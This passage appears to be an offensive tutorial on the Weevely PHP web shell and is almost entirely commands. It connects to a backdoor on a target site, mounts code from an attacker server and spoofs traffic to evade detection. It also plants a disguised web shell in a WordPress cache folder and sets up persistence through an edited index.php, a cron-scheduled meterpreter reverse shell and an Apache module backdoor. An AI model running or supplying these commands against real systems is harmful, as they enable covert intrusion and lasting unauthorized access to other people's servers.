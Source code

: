 Weevely uses HTTP as its carrier protocol, making it difficult to distinguish from normal web traffic. All commands are encoded before transmission:

```bash
# Enable stealth mode with reduced network footprint
weevely http://target.com/uploads/backdoor.php s3cr3tP4ssw0rd -s
```

#### 2. Fileless Operations

Minimize file system artifacts with Weevely's memory-only operations:

```bash
# Load PHP code directly into memory without writing to disk
:audit_phpconf
:system_info
:file_mount -remote http://attacker-server.com/tools/lateral.php
```

#### 3. Traffic Masking

Configure Weevely to blend in with legitimate traffic patterns:

```bash
# Set custom user agent to mimic legitimate browsers
:set agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"

# Add random delays between commands to evade timing analysis
:set delay=2-7
```

### Example: Creating Undetectable Backdoors

This example demonstrates creating a backdoor that persists through web server restarts while remaining undetectable:

1. Generate a stealthy PHP web shell:

```bash
weevely generate RedT3amAccess /tmp/wp-cache.php
```

2. Upload the web shell to a location that appears legitimate, such as within a WordPress installation in `/wp-content/cache/wp-cache.php`

3. Connect to your backdoor:

```bash
weevely http://target.com/wp-content/cache/wp-cache.php RedT3amAccess
```

4. Establish multi-layered persistence:

```bash
# Backdoor the legitimate index.php with a fileless loader
:file_edit -target /var/www/html/index.php -f /tmp/injector.php

# Create a cron job for periodic reconnection
:backdoor_meterpreter -payload linux/x64/meterpreter/reverse_tcp -lhost 192.168.1.100 -lport 4444 -time "*/30 * * * *"

# Create an Apache module backdoor (requires root)
:backdoor_apachemod
```
